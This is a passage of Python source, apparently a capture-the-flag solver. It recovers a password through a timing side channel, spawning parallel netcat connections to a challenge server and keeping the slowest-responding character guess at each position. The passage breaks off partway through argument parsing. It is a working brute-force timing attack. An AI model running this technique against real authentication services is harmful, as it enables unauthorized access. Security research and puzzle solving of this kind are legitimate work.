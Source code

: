 ```python
def mutate_entrypoint(password: str, times: List[Tuple[str, float]], p: pexpect.spawn) -> None:
    duration = measure_time(password, p)

    print(f"{password.ljust(max_pass_length)}: {duration * 1000.0} ms")
    times.append((password, duration))


def mutate(password: str, position: int, alphabet: str, conns: List[pexpect.spawn]) -> List[Tuple[str, float]]:
    times = []
    i = 0
    while i < len(alphabet):
        threads: List[threading.Thread] = []
        for j in range(min(max_connections, len(alphabet) - i)):
            mutated = swapchar(password, position, alphabet[i])
            i += 1

            idx = j
            thread = threading.Thread(target=mutate_entrypoint, args=(mutated, times, conns[idx]))
            threads.append(thread)

        for thread in threads:
            thread.start()
            time.sleep(0.1)

        for thread in threads:
            thread.join()
    return times


def generation(initial_pass: str, initial_generation: int, conns: List[pexpect.spawn]):
    password = initial_pass
    for i in range(initial_generation, len(password)):
        print(f" ========== GENERATION {i + 1}/{len(password)} ========== ")
        mutations = mutate(password, i, alphabet, conns)
        slowest = max(mutations, key=lambda v: v[1])
        print(f"Slowest path was {slowest[0]}, with {slowest[1] * 1000.0} ms. Setting as next generation.")
        password = slowest[0]


def spawn_connections(count: int) -> List[pexpect.spawn]:
    print("Spawning connections..")
    conns = []
    for i in range(0, count):
        process = pexpect.spawn("nc fools2023.online 13338")
        conns.append(process)
        time.sleep(2)
    return conns


def warmup_connections(conns: List[pexpect.spawn]) -> None:
    print("Warming up connections..")
    warmup_alphabet = alphabet[0:len(conns)]
    mutate("A" * max_pass_length, 0, warmup_alphabet, conns)


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("seed", help="Initial password to use", type=str, default="A" * max_pass_length)
    parser.add_argument("generation", help="Initial generation to use (index of first unconfirmed character)", type=int,
```